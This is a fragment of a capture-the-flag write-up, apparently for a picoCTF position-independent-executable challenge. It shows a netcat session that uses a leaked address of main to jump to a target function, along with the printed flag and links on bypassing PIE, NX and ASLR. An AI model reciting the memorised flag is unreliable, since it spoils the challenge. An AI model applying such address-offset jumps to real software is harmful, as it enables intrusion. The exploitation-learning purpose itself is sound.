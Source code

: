 

```bash
┌──(xrengariox㉿PC)-[~/Downloads/pico/PWN]
└─$ nc rescued-float.picoctf.net 52252
Address of main: 0x5cb784c4e33d
Enter the address to jump to, ex => 0x12345: 0x00005cb784c4e2a7
Your input: 5cb784c4e2a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_3d38fb4b}

```
https://www.appknox.com/blog/bypassing-pie-nx-and-aslr
https://khelthal.github.io/mecanismos_seguridad/pie.html
